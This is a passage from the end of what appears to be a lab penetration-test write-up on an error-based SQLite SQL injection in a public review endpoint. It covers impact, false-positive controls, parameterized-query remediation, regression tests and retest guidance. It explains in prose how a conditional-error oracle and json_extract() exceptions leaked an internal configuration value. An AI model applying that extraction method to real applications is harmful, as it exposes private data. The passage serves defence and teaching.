| Database | SQLite | `sqlite3.OperationalError`, `sqlite_master`, integer-overflow behavior, and `json_extract()` behavior are all observed. |

The proven impact is unauthenticated SQL injection on a public endpoint with enough read capability to reach database metadata and one internal configuration value. It does not establish data modification, persistence, file access, operating-system execution, or broad database extraction.

## 6. False-Positive Controls

| Potential false signal | Control | Result |
| --- | --- | --- |
| A single HTTP 500 could be transient. | Parser details and generated SQL were required; the conditional error was repeated in reverse order. | SQL parser reachability and a stable FALSE branch were independently confirmed. |
| TRUE/FALSE page content could be identical despite SQL execution. | Both predicates were compared with the same baseline; disclosed execution shows rows are discarded. | Content was classified as non-injective rather than treated as a failed SQLi test. |
| `sqlite` text could be reflected. | Only specific SQLite exception and integer-overflow markers were accepted as DB evidence. | Reflection was not treated as proof. |
| A relation name could be reflected input. | `internal_config` was dynamically evaluated rather than supplied literally in the selector. | The error channel is evidence of one evaluated relation name. |

## 7. Remediation

### Parameterize the review query

Parse the date before database use and bind the normalized value as a query parameter.

```python
from datetime import date

raw_after = request.args.get('after')
try:
    after_date = date.fromisoformat(raw_after)
except (TypeError, ValueError):
    return {'error': 'Invalid date'}, 400

rows = conn.execute(
    '''
    SELECT reviewer, stars, body, posted_date
    FROM reviews
    WHERE posted_date > ?
    ORDER BY posted_date DESC
    ''',
    (after_date.isoformat(),)
).fetchall()
```

### Remove client-facing debug and SQL details

Production responses should be generic. Database exceptions, generated SQL, source paths, source lines, and tracebacks belong only in protected server-side logs. Disabling debug mode is necessary, but handlers must also avoid serializing detailed exceptions to clients.

### Separate public and internal data paths

The public review feature should not share unrestricted reachability to internal configuration data. With SQLite, separate database files or application-level access boundaries may be more practical than database-account privileges. The design goal is that review queries cannot reach `internal_config` or unrelated `sqlite_master` metadata.

### Add regression coverage

- `after=2024-02-12` returns the expected normal review response.
- `after=2024-02-12'` is rejected before SQL parsing, for example with HTTP 400.
- SQL predicate syntax in `after` is rejected before database execution.
- Client responses contain no SQLite exception text, generated SQL, traceback, or application source path.
- The review data-access path cannot read internal configuration relations.

## 8. Validation Guidance

A remediation retest should preserve the baseline/control relationship from this report. Verify the legitimate date filter first. Then repeat only the minimal apostrophe mutation and confirm that the application rejects it before SQL parsing. Absence of a 500 alone is not enough: the response must also omit database-specific details and generated SQL. Finally, verify through architecture or controlled access tests that the review path cannot reach internal configuration storage.

## Conclusion

LeakyPipe demonstrates an error-amplified SQLite SQL injection where the apparent TRUE/FALSE content comparison is unusable because query rows are discarded. A controlled runtime error established a stable truth channel, and `json_extract()` invalid-path exceptions supplied a bounded direct scalar-transfer mechanism. The reproduction proves the public request contract, parser reachability, verbose error exposure, a two-run conditional-error oracle, limited `internal_config` metadata, one objective-constrained value, local Caido decoding, and authoritative WebVerse acceptance.

The defensive lesson is broader than input validation alone: parameterized SQL, restrained exception handling, and isolation of public feature data from internal configuration are all needed to break the demonstrated chain.
